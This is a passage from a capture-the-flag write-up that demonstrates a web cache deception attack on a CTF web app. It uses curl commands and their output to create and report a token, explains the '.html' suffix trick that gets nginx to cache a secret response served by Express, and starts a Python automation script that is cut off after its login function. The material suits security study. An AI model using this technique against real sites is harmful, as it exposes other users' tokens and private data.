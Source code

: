 The implementation redirects us upon access to a dedicated subdomain, let's get it:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/catch_me]
└─$ curl 'https://www.catch-me.appsecil.ctf.today/' --cookie cookie.txt --cookie-jar cookie.txt -I -L -s | grep location
location: /dashboard
location: https://3c400d4b29f3.catch-me.appsecil.ctf.today/dashboard
```

We create a token:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/catch_me]
└─$ curl 'https://3c400d4b29f3.catch-me.appsecil.ctf.today/api/token' \
  -X POST \
  -H 'Content-Type: application/json' \
  --cookie cookie.txt --cookie-jar cookie.txt -s
{"message":"New service token generated successfully!","tokenId":0,"token":"f50b6c42-fab4-40e0-9656-06016eb70cd3"}  
```

Report it:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/catch_me]
└─$ curl 'https://3c400d4b29f3.catch-me.appsecil.ctf.today/api/report' \
  -X POST \
  -H 'Content-Type: application/json' \
  --cookie cookie.txt --cookie-jar cookie.txt -s \
  --data-raw '{"url":"https://3c400d4b29f3.catch-me.appsecil.ctf.today/api/token/0"}'
{"success":true,"message":"Request triggered successfully."} 
```

And view it:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/catch_me]
└─$ curl 'https://3c400d4b29f3.catch-me.appsecil.ctf.today/api/token/0' \
  --cookie cookie.txt --cookie-jar cookie.txt -s
{"token":"f50b6c42-fab4-40e0-9656-06016eb70cd3"}
```

But why aren't we getting the flag? If we take a closer look at the nginx configuration,
we'll see that it only caches JS/CSS/HTML pages, but we're trying to cache a URL that isn't
any of the above!  
What can we do? In Express.js, route parameters (like `:tokenId`) are greedy by default - they 
match anything that doesn't include a slash. So, simply adding an ".html" suffix is enough in this
case.

The following script will automate the process:

```python
import requests
import time
import re
from urllib.parse import urljoin

BASE_DOMAIN = 'catch-me.appsecil.ctf.today'
BASE_URL = "https://www." + BASE_DOMAIN

session = requests.Session()

def login():
    print('[*] Logging in as guest...')
    r = session.post(urljoin(BASE_URL, '/login'), json={'username': 'guest', 'password': 'guest'})
    if r.ok:
        print('[+] Login successful.')
    else:
        print('[-] Login failed!')
```